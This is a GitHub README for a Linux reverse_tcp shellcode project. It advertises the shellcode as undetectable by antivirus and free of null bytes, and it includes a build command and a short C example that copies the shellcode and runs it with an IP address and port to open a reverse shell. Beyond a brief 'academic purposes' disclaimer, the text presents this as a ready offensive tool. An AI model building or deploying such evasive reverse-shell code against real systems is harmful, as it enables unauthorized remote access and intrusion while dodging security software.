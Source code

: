 # Reverse_tcp-Shellcode-Linux
Best reverse_tcp shellcode for linux on github, undetectable, garanty no nullbytes.

## /!\ Disclaimer /!\

This repository is for academic purposes, the use of this software is your responsibility.  
Its forbidden to use it in any illegal ways  

## Overview

This is a reverse_tcp shellcode that you can use in C.  
Its garanty no nullbytes, you can safely strlen, strcpy on it.  
Can't be detected by AVs.  
You'll need execstack to build it, to make the stack executable.  
  
### Build
Take a look at build.sh  

    ./build.sh

### Example

    #include "shellcode.h"

    int main(void)
    {
        unsigned char reverse_tcp[sizeof(shellcode)];

        memcpy(reverse_tcp, shellcode, sizeof(shellcode));

        void (*funcptr)(unsigned int, unsigned short) = (void (*)(unsigned int,  short unsigned int))reverse_tcp;

        funcptr(inet_addr("127.0.0.1"), htons(2626));
    }
